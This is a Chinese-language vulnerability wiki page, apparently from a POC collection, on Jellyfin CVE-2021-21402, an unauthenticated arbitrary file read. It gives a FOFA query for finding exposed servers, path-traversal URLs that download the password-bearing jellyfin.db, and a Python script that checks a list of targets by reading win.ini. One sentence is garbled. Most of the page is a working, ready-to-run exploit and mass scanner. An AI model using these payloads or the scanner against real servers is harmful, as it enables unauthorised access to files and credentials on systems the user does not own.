 # Jellyfin 任意文件读取漏洞 CVE-2021-21402

## 漏洞描述

Jellyfin是一个免费软件媒体系统。在10.7.1版之前的Jellyfin中，带有某些终结点的精心设计的请求将允许从Jellyfin服务器的文件系统中读取任意文件。当Windows用作主机OS时，此问题更为普遍。暴露于公共Internet的服务器可能会受到威胁。在版本10.7.1中已修复此问题。解决方法是，用户可以通过在文件系统上实施严格的安全权限来限制某些访问，但是建议尽快进行更新。

## 漏洞影响

> [!NOTE]
>
> Jellyfin < 10.7.1

## FOFA

> [!NOTE]
>
> title='Jellyfin' || body='http://jellyfin.media'

## 漏洞复现

无论是`/Audio/{Id}/hls/{segmentId}/stream.mp3`和`/Audio/{Id}/hls/{segmentId}/stream.aac`路线允许任意文件在Windows上读取。可以`{segmentId}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。最初，攻击者似乎只能读取以`.mp3`和`.aac`结尾的文件。但是，通过在URL路径中使用斜杠

Path.GetExtension(Request.Path)`返回一个空扩展名，从而获得对结果文件路径的完全控制。的`itemId，因为它没有使用也没有关系。该问题不仅限于Jellyfin文件，因为它允许从文件系统读取任何文件。

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] // [1]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.mp3", Name = "GetHlsAudioSegmentLegacyMp3")]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.aac", Name = "GetHlsAudioSegmentLegacyAac")]
//...
public ActionResult GetHlsAudioSegmentLegacy([FromRoute, Required] string itemId, [FromRoute, Required] string segmentId)
{
    // TODO: Deprecate with new iOS app
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    file = Path.Combine(_serverConfigurationManager.GetTranscodePath(), file);

    return FileStreamResponseHelpers.GetStaticFileResult(file, MimeTypes.GetMimeType(file)!, false, HttpContext);
}
```

使用如下请求将会读取带有密码的数据库文件

```
http://xxx.xxx.xxx.xxx /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ 
```

另一处代码如下

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] //[1]
[HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
//...
public ActionResult GetHlsVideoSegmentLegacy(
    [FromRoute, Required] string itemId,
    [FromRoute, Required] string playlistId,
    [FromRoute, Required] string segmentId,
    [FromRoute, Required] string segmentContainer)
{
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();

    file = Path.Combine(transcodeFolderPath, file); //[3]

    var normalizedPlaylistId = playlistId;

    var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
    // Add . to start of segment container for future use.
    segmentContainer = segmentContainer.Insert(0, ".");
    string? playlistPath = null;
    foreach (var path in filePaths)
    {
        var pathExtension = Path.GetExtension(path);
        if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
            && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
        {
            playlistPath = path;
            break;
        }
    }

    return playlistPath == null
        ? NotFound("Hls segment not found.")
        : GetFileResult(file, playlistPath);
}
```

该`/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}`路由允许在Windows上读取未经身份验证的任意文件。可以`{SegmentId}.{SegmentContainer}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。在`SegmentId`从和文件扩展名`Path`被级联。结果`file`用作`Path.Combine`[3]的第二个参数。但是，如果第二个参数是绝对路径，则第一个参数to将`Path.Combine`被忽略，而得到的路径仅是绝对路径`file`。

POC如下，下载同样的文件

```
http://xxx.xxx.xxx.xxx/Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db
```

如上为证明漏洞存在和可利用性，详情链接参考

https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/

## 漏洞POC

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Jellyfin < 10.7.1                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=2)
        if response.status_code == 200 and "file" in response.text and "extension" in response.text and "font" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞(读取 windows/win.ini), 链接为:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](http://wikioss.peiqi.tech/vuln/je-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Jellyfin 10.7.0 Unauthenticated Abritrary File Read CVE-2021-21402

![](http://wikioss.peiqi.tech/vuln/je-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)